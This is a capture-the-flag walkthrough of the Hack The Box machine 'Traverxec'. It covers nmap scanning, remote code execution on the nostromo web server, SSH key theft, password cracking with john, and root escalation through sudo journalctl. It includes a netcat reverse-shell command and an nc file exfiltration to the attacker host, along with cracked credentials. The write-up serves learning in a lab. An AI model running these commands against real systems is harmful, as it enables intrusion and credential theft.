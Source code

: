 ## Traverxec

__Machine IP: 10.10.10.165__
__Difficulty: Medium__


## Scanning

### Nmap Scanning

```bash
$ cat nmap/traverxec.nmap 
# Nmap 7.91 scan initiated Wed Sep  8 14:38:55 2021 as: nmap -sC -sV -oA nmap/traverxec 10.10.10.165
Nmap scan report for 10.10.10.165
Host is up (0.095s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Sep  8 14:39:15 2021 -- 1 IP address (1 host up) scanned in 19.91 seconds
```


## Enumeration

- found `RCE` when searchsploited `nostromo 1.9.6`
- Executing
```bash
python 47837.py 10.10.10.165 80 'nc -e /bin/sh 10.10.14.12 9001' 
```

__Result__

```bash
www-data@traverxec:/tmp$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```



- on running `linpeas.sh` found a hash of user `david`

```bash
-rw-r--r-- 1 root bin 41 Oct 25  2019 /var/nostromo/conf/.htpasswd
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/

```

- cracked -  `Nowonly4me`

- Also on analysing  `/var/nostromo/conf/nhttpd.conf`, found a `public_www` directory in home. It is not listable but can be navigated

![homedir](images/homedir.PNG)


```bash
www-data@traverxec:/var/nostromo/conf$ cd /home
cd /home
www-data@traverxec:/home$ ls
ls
david
www-data@traverxec:/home$ cd david
cd david
www-data@traverxec:/home/david$ ls
ls
ls: cannot open directory '.': Permission denied
www-data@traverxec:/home/david$ cd public_www
cd public_www
www-data@traverxec:/home/david/public_www$ ls
ls
index.html  protected-file-area

```

- found a `backup` file

```bash
www-data@traverxec:/home/david/public_www/protected-file-area$ ls
ls
backup-ssh-identity-files.tgz

```

- transfering to host machine

- on victim machine

```bash
nc 10.10.14.12 9002 < backup-ssh-identity-files.tgz
```
- on host machine

```bash
nc -lvnp 9002 > backup.tgz
```

- unzipping the file

```bash
$ tar -xzvf backup.tgz 
home/david/.ssh/
home/david/.ssh/authorized_keys
home/david/.ssh/id_rsa
home/david/.ssh/id_rsa.pub
```

- found `id_rsa` key but it is encrypted

![id_rsa](images/id_rsa.PNG)

__Decrypting the `id_rsa` using `ssh2john`__

```bash
$ locate ssh2john  
/usr/share/john/ssh2john.py
                                                                                                
┌──(kali㉿kali)-[~/…/traverxec/home/david/.ssh]
└─$ /usr/share/john/ssh2john.py id_rsa                             
id_rsa:$sshng$1$16$477EEFFBA56F9D283D349033D5D08C4F$1200$b1ec9e1ff7de1b5f5395468c76f1d92bfdaa7
f2f29c3076bf6c83be71e213e9249f186ae856a2b08de0b3c957ec1f086 ..
```

- save it in a file and crack using `john`

```bash
$ john --wordlist="/home/kali/tryhackme/blue/rockyou.txt"  id_rsa_decrypted 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (id_rsa)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:08 DONE (2021-09-08 18:52) 0.1237g/s 1774Kp/s 1774Kc/s 1774KC/sa6_123..*7¡Vamos!
Session completed
```

- password: `hunter`

- sshing to `david` user

```bash
$ ssh -i id_rsa david@10.10.10.165  
Enter passphrase for key 'id_rsa': 
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
david@traverxec:~$ 
```

> Note: id_rsa is the encrypted file from backup, when `sshed` password will be prompted and enter the cracked one







## Privilege escalation


- found a `bin` directory containing a `server-stats.sh` file which is running a binary `journalctl` as sudo

```bash
david@traverxec:~/bin$ cat server-stats.sh 
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat 
```

- on looking into `gtfobins`, found that we can get a shell
![binary](images/binary.PNG)


```bash
david@traverxec:~/bin$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service 
-- Logs begin at Wed 2021-09-08 18:36:39 EDT, end at Wed 2021-09-08 19:10:20 EDT. --
Sep 08 18:36:41 traverxec systemd[1]: Started nostromo nhttpd server.
Sep 08 19:00:01 traverxec su[783]: pam_unix(su:auth): authentication failure; logname= uid=33 eu
Sep 08 19:00:04 traverxec su[783]: FAILED SU (to david) www-data on pts/3
Sep 08 19:00:15 traverxec su[784]: pam_unix(su:auth): authentication failure; logname= uid=33 eu
Sep 08 19:00:17 traverxec su[784]: FAILED SU (to david) www-data on pts/3
!/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
```


> `/usr/bin/cat` as ommited as after pipe, the content will run as user not as sudo, for that it is ommitted
